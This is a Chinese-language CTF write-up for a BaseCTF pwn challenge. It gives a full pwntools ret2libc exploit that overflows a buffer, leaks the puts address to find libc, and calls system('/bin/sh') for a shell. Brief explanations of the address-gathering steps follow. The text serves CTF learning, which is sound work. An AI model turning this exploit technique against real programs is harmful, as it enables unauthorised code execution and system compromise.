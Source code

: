 # Basectf pwn方向“她与你皆失”

by Maple

`ret2libc`,新手上路的第一块绊脚石，这道题是很标准的两步走，先泄露libc再getshell

```python
from pwn import *
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = ELF('libc.so.6')
p = process('./pwn')
elf = ELF('./pwn')

main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a

p.recv()

payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendline(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
print(hex(libc_base))

system = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search(b'/bin/sh'))

payload2 = b'a'*(0xa+8)
payload2+=p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)

p.sendline(payload2)
p.interactive()
```

## 加载二进制文件和动态链接库

`libc = ELF('libc.so.6')`这一段是用来加载动态链接库libc.so.6，用于后续获取libc函数的地址

`elf = ELF('./pwn')`用来加载本地的二进制文件，用于获取程序中的地址信息

## 获取地址

```python
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401176
ret = 0x40101a
```
